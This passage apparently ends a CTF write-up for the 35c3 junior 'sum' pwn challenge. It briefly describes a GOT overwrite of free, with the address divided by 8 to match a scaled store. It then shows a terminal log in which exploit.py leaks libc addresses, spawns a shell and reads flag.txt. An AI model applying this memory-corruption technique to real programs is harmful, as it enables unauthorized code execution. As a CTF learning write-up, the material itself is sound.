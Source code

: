 first we get address of free from got of binary, and then we set free's address devided by 8 because of this statement
                                **mov    QWORD PTR [rax*8],rdx**
where the given address is multiplied by 8.
and thats it we are done.

the final exploit looks like this.
```
╭─pulkit@pulkit-ER28-0652 ~/Capture_The_Flag/C3CTFs/35c3jctf/pwn/sum_208  
╰─$ python exploit.py
[*] '/home/pulkit/Capture_The_Flag/C3CTFs/35c3jctf/pwn/sum_208/sum'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './sum': pid 9623
[*] PUTS: 0x7ff45ee4f9c0
[*] LIBC BASE: 0x7ff45edcf000
[*] system() : 0x7ff45ee1e440
[*] Switching to interactive mode
sh: 1: bye: not found
$ ls
exploit.py  libc-2.27.so  sum-b22202e31d8d84ec55a8f7cb698e2d656622f806.zip
flag.txt    sum
$ cat flag.txt
flag{ctf_is_over_so_this_is_a_local_exploit_from_X3eRo0}
$  

```

Thanks for reading that.
                                                                                                ~by [X3eRo0](https://twitter.com/X3eRo0)



               
               
